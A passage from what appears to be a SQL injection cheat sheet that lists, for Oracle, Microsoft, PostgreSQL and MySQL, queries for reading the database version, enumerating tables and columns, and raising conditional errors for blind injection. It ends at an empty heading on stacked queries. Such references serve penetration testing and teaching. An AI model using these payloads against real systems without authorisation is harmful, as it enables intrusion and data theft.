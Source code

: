 ## Database version

Query the database to determine its type and version. It could be useful while formulating more complicated attacks.

| Database type      | Query                                  |
| ------------------ |----------------------------------------|
| Oracle             | ``` SELECT banner FROM v$version ```   |
|                    | ``` SELECT version FROM v$instance ``` |
| Microsoft          | ``` SELECT @@version ```               |
| PostgreSQL         | ``` SELECT version() ```               |
| MySQL              | ``` SELECT @@version ```               |

## Database contents

Listing the tables that exist in the database, and the columns that those tables contain.

| Database type      | Query                                                                                 |
| ------------------ |---------------------------------------------------------------------------------------|
| Oracle             | ``` SELECT * FROM all_tables ```                                                      |
|                    | ``` SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE' ```            |
| Microsoft          | ``` SELECT * FROM information_schema.tables ```                                       |
|                    | ``` SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' ``` |
| PostgreSQL         | ``` SELECT * FROM information_schema.tables ```                                       |
|                    | ``` SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' ``` |
| MySQL              | ``` SELECT * FROM information_schema.tables ```                                       |
|                    | ``` SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' ``` |

## Conditional errors

Test a single boolean condition and trigger a database error if the condition is true.

| Database type      | Query                                                                                           |
| ------------------ |-------------------------------------------------------------------------------------------------|
| Oracle             | ``` SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual ```        |
| Microsoft          | ``` SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END ```                           |
| PostgreSQL         | ``` SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END ```             |
| MySQL              | ``` SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') ```   |

## Batched (or stacked) queries
